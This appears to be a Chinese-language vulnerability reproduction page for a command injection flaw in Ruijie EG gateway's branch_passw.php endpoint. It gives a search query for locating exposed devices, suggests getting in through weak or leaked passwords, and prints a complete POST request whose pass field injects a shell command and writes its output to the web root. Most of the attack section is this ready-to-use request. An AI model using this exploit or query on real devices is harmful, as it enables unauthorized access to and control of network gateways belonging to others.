# 锐捷EG易网关branch_passw.php远程代码执行漏洞

**<font style="color:rgb(38, 38, 38);">一、漏洞简介</font>**

<font style="color:rgb(38, 38, 38);">锐捷 EG易网关cli存在后台远程命令执行漏洞。</font>

<font style="color:rgb(38, 38, 38);"> </font>**<font style="color:rgb(38, 38, 38);">二、影响版本</font>**

`锐捷EG易网关`  
**<font style="color:rgb(38, 38, 38);">三、资产测绘</font>**

`app="Ruijie-EG易网关"`  
<font style="color:rgb(38, 38, 38);">●登录页面</font>  


![1710773302248-caa9069a-265b-44c3-8a1c-ee627b562553.png](./img/5-olKjEqA8Fof2za/1710773302248-caa9069a-265b-44c3-8a1c-ee627b562553-027421.webp)

  
**<font style="color:rgb(38, 38, 38);">四、漏洞复现</font>**  
1、通过弱口令或账号密码泄露漏洞登录后台获取cookie  


![1711298713325-517a2298-d16c-4786-a1f9-3e40836a4f8c.png](./img/5-olKjEqA8Fof2za/1711298713325-517a2298-d16c-4786-a1f9-3e40836a4f8c-244322.webp)

  
2、branch_passw.php执行whoami命令，写入web根目录test.txt文件，再访问test.txt文件得到回显。

```plain
POST /itbox_pi/branch_passw.php?a=set HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: LOCAL_LANG_COOKIE=zh; RUIJIEID=e2iuc40kc25v8bosaf04ee7273; user=admin; helpKey=home_sys
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

pass=|whoami>../test.txt
```



3、写入文件地址

```plain
/test.txt
```

  
![1711947576518-8aa155d7-86d7-4a78-9ecf-201b653a1f2c.png](./img/5-olKjEqA8Fof2za/1711947576518-8aa155d7-86d7-4a78-9ecf-201b653a1f2c-873932.png)

  
 



> 更新: 2024-06-24 11:42:25  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gcrohorfhsnzh1ix>